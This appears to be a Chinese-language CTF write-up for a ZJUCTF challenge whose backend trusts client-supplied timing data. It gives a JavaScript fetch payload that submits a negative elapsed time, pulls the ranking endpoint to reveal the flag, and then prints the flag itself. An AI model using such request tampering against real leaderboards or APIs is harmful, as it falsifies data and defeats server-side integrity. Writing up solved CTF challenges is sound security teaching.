

# 一觉醒来全世界计

## Tag

没什么 tag，ez

## Writeup

后端完全信任前端数据，所以直接发一个 -100 过去就完事了，Payload 如下：

```javascript
fetch('/api/submit', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    // 发送一个负数时间
    body: JSON.stringify({ 
        username: "SUPER_HACKER", 
        elapsed_time: -100.00 
    })
})
.then(response => response.json())
.then(data => {
    console.log("提交状态:", data);
    // 提交完成后，立即拉取排行榜查看 Flag
    return fetch('/api/ranking');
})
.then(response => response.json())
.then(rankingData => {
    // 打印完整的排行榜数据
    console.log("排行榜数据:", rankingData);
    
    // 自动寻找 Flag
    let found = false;
    rankingData.forEach(item => {
        if (item.flag) {
            console.log("%c[+] 找到 FLAG 了: " + item.flag, "color: #00ff00; font-size: 24px; background: #000; padding: 10px;");
            alert("恭喜！Flag 是:\n" + item.flag);
            found = true;
        }
    });
    
    if (!found) {
        console.log("排名已更新，但未直接检测到 Flag 字段。请检查网页上的排行榜显示。");
    }
})
.catch(error => console.error("Error:", error));
```



得到 flag：`ZJUCTF{are_you_really_primary_school_student_3f0fe1565296}`